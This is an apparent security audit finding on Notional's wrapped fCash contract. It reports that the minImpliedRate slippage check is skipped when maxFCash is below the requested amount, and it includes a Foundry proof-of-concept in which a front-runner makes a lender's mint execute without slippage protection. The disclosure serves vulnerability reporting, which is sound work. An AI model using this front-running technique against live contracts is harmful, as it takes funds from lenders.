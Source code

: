 let's dive into `_mintInternal` we can see if `maxFCash < fCashAmount` , the vaule of `minImpliedRate` is not checked
https://github.com/sherlock-audit/2023-12-notional-update-5/blob/3bf2fb5d992dfd5aa7343d7788e881d3a4294b13/wrapped-fcash/contracts/wfCashLogic.sol#L60-L68
```solidity
        if (maxFCash < fCashAmount) {
            // NOTE: lending at zero
            uint256 fCashAmountExternal = fCashAmount * precision / uint256(Constants.INTERNAL_TOKEN_PRECISION);//@audit-info fCashAmount * (underlyingTokenDecimals) / 1e8
            require(fCashAmountExternal <= depositAmountExternal);

            // NOTE: Residual (depositAmountExternal - fCashAmountExternal) will be transferred
            // back to the account
            NotionalV2.depositUnderlyingToken{value: msgValue}(address(this), currencyId, fCashAmountExternal);//@audit check this.
        } 
```
Imagine the following scenario:
- lender deposit Underlying token to mint some shares and set a `minImpliedRate` to protect the trsanction
- alice front-run her transaction invoke `mint` to mint some share
- the shares of lender mint now is bigger than `maxFCash`
- now the lender `lending at zero`

```solidity
    function testDepositViaUnderlying() public {
        address alice = makeAddr("alice");
        deal(address(asset), LENDER, 8800 * precision, true);
        deal(address(asset), alice, 5000 * precision, true);

        //alice deal.
        vm.stopPrank();
        vm.startPrank(alice);
        asset.approve(address(w), type(uint256).max);
        
        //==============================LENDER START=============================//
        vm.stopPrank();
        vm.startPrank(LENDER);
        asset.approve(address(w), type(uint256).max);
        //user DAI balance before:
        assertEq(asset.balanceOf(LENDER), 8800e18);

        (/* */, uint256 maxFCash) = w.getTotalFCashAvailable();
        console2.log("current maxFCash:",maxFCash);

        //LENDER mintViaUnderlying will revert due to slippage.
        uint32 minImpliedRate = 0.15e9;
        vm.expectRevert("Trade failed, slippage");
        w.mintViaUnderlying(5000e18,5000e8,LENDER,minImpliedRate);
        //==============================LENDER END=============================//

        //======================alice frontrun to mint some shares.============//
        vm.stopPrank();
        vm.startPrank(alice);
        w.mint(5000e8,alice);

        //==========================LENDER TX =================================//
        vm.stopPrank();
        vm.startPrank(LENDER);
        asset.approve(address(w), type(uint256).max);
        //user DAI balance before:
        assertEq(asset.balanceOf(LENDER), 8800e18);

        //LENDER mintViaUnderlying will success.
        w.mintViaUnderlying(5000e18,5000e8,LENDER,minImpliedRate);
```